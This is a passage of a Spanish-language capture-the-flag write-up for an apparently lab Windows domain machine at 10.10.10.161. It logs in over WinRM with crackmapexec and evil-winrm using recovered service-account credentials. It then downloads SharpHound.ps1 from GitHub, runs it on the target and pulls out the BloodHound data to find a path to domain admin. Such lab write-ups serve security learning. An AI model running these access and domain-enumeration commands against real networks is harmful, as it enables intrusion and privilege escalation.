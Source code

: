 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Aqui vemos quel usuario es (Pwn3d!)

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

ya estamos a dentro de la maquina y podemos ver la flag del usuario.


### Enumeracion del systema para preparar la escalada de privilegios {-}

1. instalamos bloodhound y neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. lanzamos neo4j service

    ```bash
    sudo neo4j console
    ```

1. lanzamos bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```

1. connectamos bloodhound al neo4j database
1. Collectamos la data con SharpHound.ps1

    - descargamos en sharphound
    
        ```bash
        wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
        ```

    - lo uploadeamos desde el evil-winrm

        ```bash
        upload SharpHound.ps1
        ```

    - lo lanzamos desde el evil-winrm

        ```bash
        Import-Module .\SharpHound.ps1
        Invoke-BloodHound -CollectionMethod All
        dir
        ```

    - ahora que tenemos el zip nos lo descargamos

        ```bash
        download 20210812133453_BloodHound.zip
        ```

1. Drag & Drop del fichero **.zip** hacia la ventana del bloodhound y en el Analysis tab

    - Find all Domains Admins -> Show Administrator of the domain
    

Aqui hay una via potencial (un camino) que nos permitte convertir en usuario administrador

```{r, echo = FALSE, fig.cap="Bloodhound privesc", out.width="90%"}
    knitr::include_graphics("images/Forest-bloodhound.png")
```
